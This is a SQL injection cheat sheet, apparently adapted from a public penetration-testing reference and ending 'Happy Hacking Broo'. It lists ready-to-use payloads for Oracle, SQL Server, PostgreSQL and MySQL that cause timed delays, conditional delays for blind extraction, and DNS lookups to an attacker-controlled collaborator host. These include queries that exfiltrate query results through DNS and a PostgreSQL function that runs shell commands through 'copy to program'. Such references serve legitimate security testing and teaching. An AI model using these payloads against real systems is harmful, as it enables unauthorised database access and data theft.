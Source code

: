 ### Time Delays

Cause a time delay in query processing (10 seconds):

- **Oracle:** `dbms_pipe.receive_message(('a'),10)`
- **Microsoft:** `WAITFOR DELAY '0:0:10'`
- **PostgreSQL:** `SELECT pg_sleep(10)`
- **MySQL:** `SELECT SLEEP(10)`

#### Conditional Time Delays

Trigger a time delay if a condition is true:

- **Oracle:** `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 'a'||dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM dual`
- **Microsoft:** `IF (YOUR-CONDITION-HERE) WAITFOR DELAY '0:0:10'`
- **PostgreSQL:** `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN pg_sleep(10) ELSE pg_sleep(0) END`
- **MySQL:** `SELECT IF(YOUR-CONDITION-HERE,SLEEP(10),'a')`

### DNS Lookup

Cause the database to perform a DNS lookup to an external domain:

- **Oracle:**
    - Vulnerable versions: `SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual`
    - Fully patched versions (requires elevated privileges): `SELECT UTL_INADDR.get_host_address('BURP-COLLABORATOR-SUBDOMAIN')`
- **Microsoft:** `exec master..xp_dirtree '//BURP-COLLABORATOR-SUBDOMAIN/a'`
- **PostgreSQL:** `copy (SELECT '') to program 'nslookup BURP-COLLABORATOR-SUBDOMAIN'`
- **MySQL (Windows only):**
    - `LOAD_FILE('\\BURP-COLLABORATOR-SUBDOMAIN\a')`
    - `SELECT ... INTO OUTFILE '\\BURP-COLLABORATOR-SUBDOMAIN\a'`

#### DNS Lookup with Data Exfiltration

Exfiltrate query results via DNS lookup:

- **Oracle:** `SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT YOUR-QUERY-HERE)||'.BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual`
- **Microsoft:** `declare @p varchar(1024);set @p=(SELECT YOUR-QUERY-HERE);exec('master..xp_dirtree "//'+@p+'.BURP-COLLABORATOR-SUBDOMAIN/a"')`
- **PostgreSQL:**
    
    ```sql
    create OR replace function f() returns void as $$
    declare c text;
    declare p text;
    begin
    SELECT into p (SELECT YOUR-QUERY-HERE);
    c := 'copy (SELECT '''') to program ''nslookup '||p||'.BURP-COLLABORATOR-SUBDOMAIN''';
    execute c;
    END;
    $$ language plpgsql security definer;
    SELECT f();
    ```
    
- **MySQL (Windows only):** `SELECT YOUR-QUERY-HERE INTO OUTFILE '\\BURP-COLLABORATOR-SUBDOMAIN\a'`

---

**`Happy Hacking Broo`**

---